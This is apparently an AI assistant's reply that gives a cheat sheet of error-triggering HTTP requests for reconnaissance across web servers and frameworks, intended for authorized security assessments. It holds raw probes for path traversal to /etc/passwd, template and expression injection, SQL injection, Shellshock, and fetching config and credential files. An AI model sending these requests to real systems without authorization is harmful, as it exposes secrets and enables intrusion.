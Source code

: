 Here’s an expanded version of your **error-generating payloads** for web application reconnaissance, covering additional technologies like **IIS, Nginx, Flask, Spring Boot, and more**:

---

# **Web Application Error-Generating Payloads for Reconnaissance**  

This document contains a collection of **HTTP requests** designed to trigger errors in various web technologies. These payloads help identify the **underlying server, frameworks, and potential vulnerabilities** during security assessments.  

> **⚠️ Legal & Ethical Note:**  
> - Use only on systems you **own** or have **explicit permission** to test.  
> - Error messages may expose **sensitive data** (paths, versions, configs).  

---

## **1. General Payloads (Works on Most Servers)**  

```http
GET /nonexistent-page HTTP/1.1  
Host: example.com  

GET /<script>alert(1)</script> HTTP/1.1  
Host: example.com  

GET /../../../../etc/passwd HTTP/1.1  
Host: example.com  

GET /%0a HTTP/1.1  # Newline injection  
Host: example.com  

GET /?test=${7*7} HTTP/1.1  # Expression Language (EL) test  
Host: example.com  
```

---

## **2. Apache Tomcat / Java Servers**  

```http
GET /manager/html HTTP/1.1  
Host: example.com  

GET /host-manager/html HTTP/1.1  
Host: example.com  

GET /tomcat-docs/ HTTP/1.1  
Host: example.com  

GET /examples/servlets/servlet/RequestInfoExample HTTP/1.1  
Host: example.com  

GET /nonexistent.jsp HTTP/1.1  
Host: example.com  

GET /WEB-INF/web.xml HTTP/1.1  # Attempt to access config  
Host: example.com  
```

---

## **3. Node.js / Express / NestJS**  

```http
GET /package.json HTTP/1.1  
Host: example.com  

GET /app.js HTTP/1.1  
Host: example.com  

GET /server.js HTTP/1.1  
Host: example.com  

GET /node_modules/ HTTP/1.1  
Host: example.com  

GET /api/%0a HTTP/1.1  # Newline injection  
Host: example.com  

GET /api/{{7*7}} HTTP/1.1  # SSTI test  
Host: example.com  
```

---

## **4. PHP (Laravel, WordPress, etc.)**  

```http
GET /info.php HTTP/1.1  
Host: example.com  

GET /phpinfo.php HTTP/1.1  
Host: example.com  

GET /wp-config.php HTTP/1.1  
Host: example.com  

GET /index.php?-s  # Source code disclosure  
Host: example.com  

GET /index.php?=PHPE9568F36-D428-11d2-A769-00AA001ACF42  # PHP Easter Egg  
Host: example.com  

GET /?a=1&b[]=2  # Array parameter (may trigger errors)  
Host: example.com  
```

---

## **5. Ruby on Rails**  

```http
GET /rails/info/routes HTTP/1.1  
Host: example.com  

GET /rails/info/properties HTTP/1.1  
Host: example.com  

GET /assets/rails.png HTTP/1.1  
Host: example.com  

GET /users/1,2,3,4,5  # Mass assignment test  
Host: example.com  

GET /users?sort[]=name&sort[]=email  # SQL injection test  
Host: example.com  

GET /?test=<%= 7*7 %>  # ERB SSTI test  
Host: example.com  
```

---

## **6. ASP.NET / IIS**  

```http
GET /web.config HTTP/1.1  
Host: example.com  

GET /trace.axd HTTP/1.1  
Host: example.com  

GET /elmah.axd HTTP/1.1  
Host: example.com  

GET /default.aspx?aspxerrorpath=/  
Host: example.com  

GET /__browserLink/requestData  
Host: example.com  

GET /?test=@(7*7)  # Razor SSTI test  
Host: example.com  
```

---

## **7. Django / Flask (Python)**  

```http
GET /admin/ HTTP/1.1  
Host: example.com  

GET /static/admin/ HTTP/1.1  
Host: example.com  

GET /__debug__/ HTTP/1.1  
Host: example.com  

GET /manage.py HTTP/1.1  
Host: example.com  

GET /settings.py HTTP/1.1  
Host: example.com  

GET /?test={{7*7}}  # Jinja2 SSTI test  
Host: example.com  
```

---

## **8. Nginx / Lighttpd**  

```http
GET /nginx-status HTTP/1.1  
Host: example.com  

GET /server-status HTTP/1.1  
Host: example.com  

GET /.git/config HTTP/1.1  # Git config leak  
Host: example.com  

GET /%2e%2e/%2e%2e/etc/passwd  # Path traversal  
Host: example.com  
```

---

## **9. Spring Boot (Java)**  

```http
GET /actuator/health HTTP/1.1  
Host: example.com  

GET /actuator/env HTTP/1.1  
Host: example.com  

GET /v2/api-docs HTTP/1.1  
Host: example.com  

GET /swagger-ui.html HTTP/1.1  
Host: example.com  

GET /?test=*{7*7}  # SpEL Injection  
Host: example.com  
```

---

## **10. Additional Checks**  

### **Database Errors (SQL Injection Probes)**  
```http
GET /users?id=1' HTTP/1.1  
Host: example.com  

GET /products?id=1 AND 1=CONVERT(int,@@version)--  
Host: example.com  
```

### **HTTP Header Manipulation**  
```http
GET / HTTP/1.1  
Host: example.com  
X-Forwarded-Host: attacker.com  

GET / HTTP/1.1  
Host: example.com  
User-Agent: () { :; }; echo 'Vulnerable'  
```

---

## **Final Notes**  
✅ **Analyze error responses** for:  
- **Server banners** (Apache/2.4.41, nginx/1.18.0)  
- **Framework versions** (Django 3.1, PHP 8.0)  
- **Path disclosures** (`/var/www/html/config.php`)  
- **Stack traces** (Node.js, Java exceptions)  

🚨 **Use responsibly!** Unauthorized testing may be illegal.  

---
